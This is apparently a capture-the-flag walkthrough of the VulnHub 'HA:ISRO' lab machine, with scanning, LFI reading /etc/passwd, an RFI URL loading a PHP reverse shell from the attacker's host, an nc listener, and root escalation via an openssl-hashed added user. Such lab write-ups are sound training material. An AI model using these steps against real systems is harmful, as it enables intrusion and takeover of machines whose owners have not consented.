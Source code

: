 # HA:ISRO !~~~~ VULNHUB

quickly dive into enumeration:
:nmap:


![2024-09-16_20-48](https://github.com/user-attachments/assets/8f385e61-ed5a-4909-a562-d2553b72858b)



# NIKTO for finding the hidden directories
![2024-09-16_20-57](https://github.com/user-attachments/assets/db908d8b-f883-41b8-a9ab-98f1afff5bcf)




# ::::::i've run  another tool called dirb for hidden dicrectories searching::::

![2024-09-16_21-05](https://github.com/user-attachments/assets/c144594d-2def-46b1-a02a-61d3571ea09a)


After getting /connect.php i simply search it 
http://192.168.73.147/connect.php {its shows blank so is use another method}
~
`
`





# Then i simply perform url injection for getting the passwd file insidings

http://192.168.73.147/connect.php?file=/etc/passwd

![2024-09-16_21-11](https://github.com/user-attachments/assets/7552f865-0c14-46b2-938f-545621631b38)




# After than i simply look onto RFI vulnarebility which actually it shows , so i begin dig in
FIRSTLY :: i've to generate a reverse shell so i downloaded the file called php-reverse-shell/php 
           then i simply edited my own ip and port will be 1234 
           ![2024-09-17_12-35](https://github.com/user-attachments/assets/a65b7aeb-f543-4e13-96d2-a81d77765425)

2ND-LY  :: I've type in url {{http://192.168.73.147/connect.php?file=http://192.168.73.129:5000/php-reverse-shell.php}}
THIRDL-LY :: equivalently i use nc -lvnp 1234 for getting the shell  
             
![2024-09-17_12-44](https://github.com/user-attachments/assets/98c2a376-7627-4b56-aa13-be0638b70219)

  FINALLY get the shell but not in interactive mode
  so i use python script to generate-interactive mode using 
   [python3 -c "import pty;pty.spawn('/bin/bash') ;" ]
  succesfully in interactive mode 
  but not accessing in root so, performing previledge-escalation  
  # FOr that instance i've to create a openssl session and also genareting hash for our new user and gettin also with root previledges 
                                               {openssl passwd -1 -salt user HA:ISRO}
 

   ![2024-09-17_12-54](https://github.com/user-attachments/assets/782b7a8d-7892-4d0d-8d98-9ce0bcccfcd1)

  ![2024-09-17_12-58](https://github.com/user-attachments/assets/aa2c15a7-995d-4db5-9f12-91737df53902)

  now i've  create a user called darkey and passwd will be-HA:ISRO


















